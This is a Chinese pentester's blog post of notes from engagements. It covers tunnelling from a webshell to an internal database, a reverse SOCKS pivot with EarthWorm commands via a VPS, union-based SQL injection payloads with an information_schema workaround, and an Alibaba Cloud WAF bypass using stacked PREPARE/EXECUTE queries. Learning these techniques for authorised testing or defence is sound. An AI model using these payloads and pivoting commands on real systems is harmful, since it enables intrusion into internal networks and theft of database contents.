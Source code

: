 ```yaml
---
layout:     post
title:      渗透测试踩坑记录
subtitle:   
date:       2016-03-05
author:     sp4rk
header-img: 
catalog: true
tags:
    - pentest
---
```


## 0x00 前言：

  晚饭后比较闲一点，思考了一下觉得有必要记录一些东西，于是想着把渗透过程中遇到的坑进行记录一下，主要是耗费时间较多的地方～    留着自己以后当故事看咯。

## 0X01 数据库在内网的情况
<!--more-->
过程:
shell中把代码拖下来分析，找到了数据库的配置文件，但是数据库在内网，不允许外连。
解决：
可以通过navicat进行连接，走自带的HTTP隧道，shell中上传一个PHP的代理脚本就行了。

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbx62e6fj30d30e4mxy.jpg)

## 0x02 站库分离，数据库不能外链的情况





过程：
渗透过程中，拖取源码后，对网站的功能点进行分析，发现与数据库交互的地方和都是通过接口进行数据库的CURD操作，找到接口对应的数据库文件，发现存放在另一台机器的oracle数据库中。navicat尝试连接，发现报错：
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxkdrk9j30cq05q74g.jpg)
我本地ping不通，telnet oracke端口也连接不了
解决：
最后在shell上发现可以ping通,于是走socks反向代理去连接数据库
shell中上传ew ，vps上弹个shell回来。
xshell新建窗口，在vps中监听2222和7777端口，

```shell
./ew_linux_i686 -s rcsocks -l 2222 -e 7777 &
```

shell中访问监听的7777端口。

```shell
./ew_linux_i686 -s rssocks -d shelip -e 7777
```
本地配置proxifier，socks5代理，端口2222

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxhcj13j30ad0dfq34.jpg)

然后再去尝试连接oracle数据库，发现还是报错，不过这次是字符集的错误,说明数据库是能连接上的，只是编码问题的报错。

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxnzp6vj30kr07jt8q.jpg)

查了下ora12737错误，可以参考：[ora12737 error](https://www.cnblogs.com/jym-sunshine/p/4758626.html)，
网上说是服务器编码的问题，需要替换oci文件。这里尝试了，发现仍然报错，后面试了下英文版的navicat，发现也是报错。最后在shell里写了个脚本去把数据读出来，也算是解决了。

## 0x03 联合查询不能读information_schema的SQL注入技巧
过程：
渗透测试遇到一个注入点，可以联合查询，执行如下SQL语句：

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,3,4,5,6%23  
```

显位在3,4，这里读取数据库

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,database(),4,5,6%23
```

这里也能通过注入查database()。但是查表名的时候就没回显了，估计是没有权限

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()%23
```

解决：
测试了一下发现,group_concat()函数里面跟一个数字可以显示，本地测试的过程如下：

```sql
mysql> show tables;
+----------------+
| Tables_in_test |
+----------------+
| tselect        |
| user           |
+----------------+
2 rows in set (0.01 sec)

mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.tables where table_schema=database();
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.00 sec)
```

可以看到当显位在2的时候，group_concat(1)，第2位有两个1显示，说明table_name是两个。
那么我们可以用like去逐个比较久行了，比如说查表名的操作：

```sql
mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.columns where table_name like 'tselec%';
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.03 sec)

mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.columns where table_name like 'tselect';
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.02 sec)
```

后续：
这里我有个疑问，information_schema数据库是公共视图，不知道为什么注入的时候读不出table_name？
换个思路，既然能测出账号密码了，就想登录后台看能不能把站搞下来，看下权限到底怎么配的，结果后台没什么功能，就到此为止了。。。

## 0x04 记录一次bypass阿里云waf

过程：站点主机在阿里云上面，url是这种样子

```html
http://target.com/xxx/aaa?type=1&a=111&b=111
```

测试注入，发现经过括号闭合--可以进行注释，返回正常，说明可以拼接SQL语句，存在注入，这里试了网上的方法尝试去绕，都被拦截了。。。

```html
aaa?type=1&a=111')+—+a&b=111
```

解决：

最后测试了下，确定为使用pdo进行多语句查询的时候存在注入的情况，用mysql用户自定义变量进行绕过。 

pdo在没有设置禁止多语句的情况下，使用模拟预处理处理是可能造成注入的。

```php
PDO::MYSQL_ATTR_MULTI_STATEMENTS = false (禁止多语句)
```

预处理模式分为1.模拟预处理：将处理完的SQL语句发送给mysql服务器，多语句的情况下可能造成注入,比如说下面user可控的时候引入多语句，造成注入。

```php
select id,$_GET['user'] from users where username=?;
  ---->  user=from users; select password    
```



2.非模拟预处理：发送sql语句模板到数据库，通过excute发送占位符到数据库进行处理（参数化绑定，先发送带占位符的sql语句，再发送占位符参数给mysql数据库执行）

预处理语句通过下面的语句对mysql进行处理

```mysql
preparestmt_name  from  preparable_stmt;
executestmt_name[using @var_name[, @var_name] ...];
preparestmt_name;
```

再来看站点的sql注入，构造payload

SET+@SQL=hexencode(需要传入的语句);PREPARE+xxxx+FROM+@SQL;EXECUTE+xxxx;+--+a

@SQL传入布尔查询语句（查询布尔条件为正确与错误那个字段都是返回的空，所以引入exp进行报错，错误的情况下是返回500）

```mysql
mysql> select if(1=2,1,exp(1024));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(1024)'
```